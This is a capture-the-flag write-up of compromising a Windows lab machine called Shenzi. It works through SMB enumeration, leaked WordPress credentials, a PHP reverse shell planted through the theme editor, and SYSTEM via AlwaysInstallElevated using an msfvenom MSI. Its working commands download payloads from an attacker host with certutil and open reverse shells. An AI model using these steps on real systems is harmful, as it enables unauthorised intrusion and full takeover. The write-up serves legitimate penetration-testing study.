







Writeup by wook413

[TOC]

# Recon

## Nmap

As per my standard methodology, I initiated the assessment with three Nmap scans: a comprehensive scan of all 65,535 TCP ports, a targeted service/version scan on identified open ports, and a fast scan of the top 10 UDP ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-08 18:50 UTC
Nmap scan report for 192.168.188.55
Host is up (0.054s latency).
Not shown: 65022 closed tcp ports (reset), 498 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5040/tcp  open  unknown
7680/tcp  open  pando-pub
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 16.91 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 21,80,135,139,445,3306,5040,7680,49664-49669
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-08 18:52 UTC
Nmap scan report for 192.168.188.55
Host is up (0.047s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp    open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-title: Welcome to XAMPP
|_Requested resource was <http://192.168.188.55/dashboard/>
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql         MariaDB 10.3.24 or later (unauthorized)
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-02-08T18:55:05
|_  start_date: N/A

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 175.58 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10                                     
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-08 18:55 UTC
Nmap scan report for 192.168.188.55
Host is up (0.054s latency).

PORT     STATE         SERVICE
53/udp   closed        domain
67/udp   closed        dhcps
123/udp  open|filtered ntp
135/udp  closed        msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  closed        snmp
445/udp  closed        microsoft-ds
631/udp  closed        ipp
1434/udp closed        ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 8.60 seconds
```

# Initial Access

## FTP 21

I confirmed that FTP on port 21 does not permit `anonymous login`.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ftp $IP
Connected to 192.168.188.55.
220-FileZilla Server version 0.9.41 beta
220-written by Tim Kosse (Tim.Kosse@gmx.de)
220 Please visit <http://sourceforge.net/projects/filezilla/>
Name (192.168.188.55:kali): anonymous
331 Password required for anonymous
Password: 
530 Login or password incorrect!
ftp: Login failed
ftp> 
```

## SMB 139 445

While the Nmap’s SMB scripts yielded no useful results, I discovered that the SMB server allowed `Null Authentication` .

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=smb-enum-shares,smb-enum-users,vuln -p 139,445
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-08 19:00 UTC
Nmap scan report for 192.168.188.55
Host is up (0.049s latency).

PORT    STATE SERVICE       VERSION
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 39.37 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP             

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       Remote IPC
        Shenzi          Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.188.55 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

This let me identify the `IPC$` and `shenzi` shares, the latter being a non-default share containing several files.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient //$IP/Shenzi
Password for [WORKGROUP\\kali]:
Try "help" to get a list of possible commands.
smb: \\> ls
  .                                   D        0  Thu May 28 15:45:09 2020
  ..                                  D        0  Thu May 28 15:45:09 2020
  passwords.txt                       A      894  Thu May 28 15:45:09 2020
  readme_en.txt                       A     7367  Thu May 28 15:45:09 2020
  sess_klk75u2q4rpgfjs3785h6hpipp      A     3879  Thu May 28 15:45:09 2020
  why.tmp                             A      213  Thu May 28 15:45:09 2020
  xampp-control.ini                   A      178  Thu May 28 15:45:09 2020

                12941823 blocks of size 4096. 6285396 blocks available
```

To streamline the inspection process, I mounted the entire `shenzi` share locally rather than downloading files individually.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo mount -t cifs -o username=wook,password=wook,domain=. //$IP/Shenzi test/

┌──(kali㉿kali)-[~/Desktop/test]
└─$ ls -la
total 25
drwxr-xr-x 2 root root 4096 May 28  2020 .
drwxr-xr-x 2 root root 4096 May 28  2020 ..
-rwxr-xr-x 1 root root  894 May 28  2020 passwords.txt
-rwxr-xr-x 1 root root 7367 May 28  2020 readme_en.txt
-rwxr-xr-x 1 root root 3879 May 28  2020 sess_klk75u2q4rpgfjs3785h6hpipp
-rwxr-xr-x 1 root root  213 May 28  2020 why.tmp
-rwxr-xr-x 1 root root  178 May 28  2020 xampp-control.ini
```

Within the share, I found a `passwords.txt` file containing credentials for `Wordpress CMS` — a critical finding for the next stage of the attack.

```bash
┌──(kali㉿kali)-[~/Desktop/test]
└─$ cat passwords.txt 
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).     

5) WordPress:

   User: admin
   Password: FeltHeadwallWight357
```

## HTTP 80

Although HTTP was active on port 80, the `http-enum` script failed to find any interesting directories.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 80                                                                     
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-08 19:23 UTC
Nmap scan report for 192.168.188.55
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-enum: 
|   /icons/: Potentially interesting folder w/ directory listing
|_  /img/: Potentially interesting directory w/ listing on 'apache/2.4.43 (win64) openssl/1.1.1g php/7.4.6'

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 17.53 seconds
```

The landing page was a standard default page that only provided access to `phpinfo()`.





Initial directory brute-forcing with `gobuster` returned several results, but none provided a clear path forward.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://$IP/dashboard> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,asp,xml,html,js,sql,gz,zip
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://192.168.188.55/dashboard>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,js,sql,gz,zip,php,asp,xml
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 1046]
/index.html           (Status: 200) [Size: 7576]
/images               (Status: 301) [Size: 351] [--> <http://192.168.188.55/dashboard/images/>]
/faq.html             (Status: 200) [Size: 31751]
/docs                 (Status: 301) [Size: 349] [--> <http://192.168.188.55/dashboard/docs/>]
/Images               (Status: 301) [Size: 351] [--> <http://192.168.188.55/dashboard/Images/>]
/de                   (Status: 301) [Size: 347] [--> <http://192.168.188.55/dashboard/de/>]
/fr                   (Status: 301) [Size: 347] [--> <http://192.168.188.55/dashboard/fr/>]
/it                   (Status: 301) [Size: 347] [--> <http://192.168.188.55/dashboard/it/>]
/FAQ.html             (Status: 200) [Size: 31751]
/es                   (Status: 301) [Size: 347] [--> <http://192.168.188.55/dashboard/es/>]
/pl                   (Status: 301) [Size: 347] [--> <http://192.168.188.55/dashboard/pl/>]
/howto.html           (Status: 200) [Size: 6021]
/tr                   (Status: 301) [Size: 347] [--> <http://192.168.188.55/dashboard/tr/>]
/Index.html           (Status: 200) [Size: 7576]
/ru                   (Status: 301) [Size: 347] [--> <http://192.168.188.55/dashboard/ru/>]
/jp                   (Status: 301) [Size: 347] [--> <http://192.168.188.55/dashboard/jp/>]
<SNIP>
```

Following a sudden hunch, I tried appending `/shenzi`, the name of the SMB share, to the target IP address. This successfully revealed a hidden `WordPress` installation.



I ran a subsequent `gobuster` scan against the `/shenzi` directory and located the `/admin` path, which redirected to `wp-login.php`

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://$IP/shenzi> -w /usr/share/seclists/Discovery/Web-Content/common.txt                                   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://192.168.188.55/shenzi>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 1046]
/.htaccess            (Status: 403) [Size: 1046]
/.htpasswd            (Status: 403) [Size: 1046]
/0                    (Status: 301) [Size: 0] [--> <http://192.168.188.55/shenzi/0/>]
/2020                 (Status: 301) [Size: 0] [--> <http://192.168.188.55/shenzi/2020/>]
/H                    (Status: 301) [Size: 0] [--> <http://192.168.188.55/shenzi/2020/05/28/hello-world/>]
/S                    (Status: 301) [Size: 0] [--> <http://192.168.188.55/shenzi/sample-page/>]
/admin                (Status: 302) [Size: 0] [--> <http://192.168.188.55/shenzi/wp-admin/>]
/atom                 (Status: 301) [Size: 0] [--> <http://192.168.188.55/shenzi/feed/atom/>]
/aux                  (Status: 403) [Size: 1046]
/com1                 (Status: 403) [Size: 1046]
/com2                 (Status: 403) [Size: 1046]
/com3                 (Status: 403) [Size: 1046]
/com4                 (Status: 403) [Size: 1046]
/con                  (Status: 403) [Size: 1046]
/dashboard            (Status: 302) [Size: 0] [--> <http://192.168.188.55/shenzi/wp-admin/>]
/embed                (Status: 301) [Size: 0] [--> <http://192.168.188.55/shenzi/embed/>]
/feed                 (Status: 301) [Size: 0] [--> <http://192.168.188.55/shenzi/feed/>]
```

Using the credentials found earlier in `passwords.txt` , I successfully authenticated to the `WordPress` dashboard.





Leveraging the **Theme Editor** in the WordPress admin panel, I found I could overwrite existing files. I replaced the content of `404.php` with an `Ivan-Sincek.php` reverse shell payload.



By navigating to the modified `/404.php` page, I triggered the payload and established a reverse shell as the user `shenzi`



# Shell as `shenzi`

When visited again `/shenzi/404.php` after updating the file.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 443                          
listening on [any] 443 ...
connect to [192.168.45.229] from (UNKNOWN) [192.168.188.55] 55589
SOCKET: Shell has connected! PID: 1640
Microsoft Windows [Version 10.0.19042.1526]
(c) Microsoft Corporation. All rights reserved.

C:\\xampp\\htdocs\\shenzi>whoami
shenzi\\shenzi
```

Found `local.txt`

```cmd
C:\\Users\\shenzi\\Desktop>type local.txt
0e5...
```

# Privilege Escalation

```cmd
C:\\Users\\shenzi\\Desktop>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

To identify potential escalation vectors, I transferred `PrivescCheck.ps1` to the target host and executed it.

```cmd
C:\\Users\\shenzi\\Desktop>certutil -urlcache -split -f <http://192.168.45.229/PrivescCheck.ps1> PrivescCheck.ps1
****  Online  ****
  000000  ...
  03644a
CertUtil: -URLCache command completed successfully.
powershell -ep bypass -c ". .\\PrivescCheck.ps1; Invoke-PrivescCheck -Format TXT,HTML"
```

The script flagged the `AlwaysInstallElevated` policy as being enabled, which allows `Windows Installer (MSI)` packages to run with elevated privileges.

```bash
????????????????????????????????????????????????????????????????
?                 ~~~ PrivescCheck Summary ~~~                 ?
????????????????????????????????????????????????????????????????
 TA0001 - Initial Access
 - Hardening - BitLocker  Low
 TA0004 - Privilege Escalation
 - Configuration - MSI AlwaysInstallElevated  High
 - Updates - Update History  Medium
 TA0006 - Credential Access
 - Hardening - Credential Guard  Low
 - Hardening - LSA Protection  Low
```

**AlwaysInstallElevated**

- Windows installer files (also known as `.msi` files) are used to install applications on the system. They usually run with the privilege level of the user that starts it.
- However, these can be configured to run with elevated privileges from any user account.
- This could potentially allows us to generate a malicious `.msi` files that would run with admin privileges.
- This method requires both HKCU and HKLM registry values to be set to `1` . Otherwise the exploitation will not be possible.

```powershell
C:\\Users\\shenzi\\Desktop>reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

C:\\Users\\shenzi\\Desktop>reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

I generated a malicious `.msi` reverse shell payload using `msfvenom` .

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.229 LPORT=80 -f msi -o wook.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: wook.msi
```

After transferring and executing the payload on the target, I successfully obtained a shell with `SYSTEM` privileges.

```powershell
C:\\Users\\shenzi\\Desktop>certutil -urlcache -split -f <http://192.168.45.229:8888/wook.msi>
****  Online  ****
  000000  ...
  027000
CertUtil: -URLCache command completed successfully.
C:\\Users\\shenzi\\Desktop>msiexec /quiet /qn /i C:\\Users\\shenzi\\Desktop\\wook.msi
```

# Shell as `SYSTEM`

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 80    
listening on [any] 80 ...
connect to [192.168.45.229] from (UNKNOWN) [192.168.188.55] 55625
Microsoft Windows [Version 10.0.19042.1526]
(c) Microsoft Corporation. All rights reserved.

C:\\WINDOWS\\system32>whoami
whoami
nt authority\\system
```

found `proof.txt`

```cmd
C:\\Users\\Administrator\\Desktop>type proof.txt
type proof.txt
1c1...
```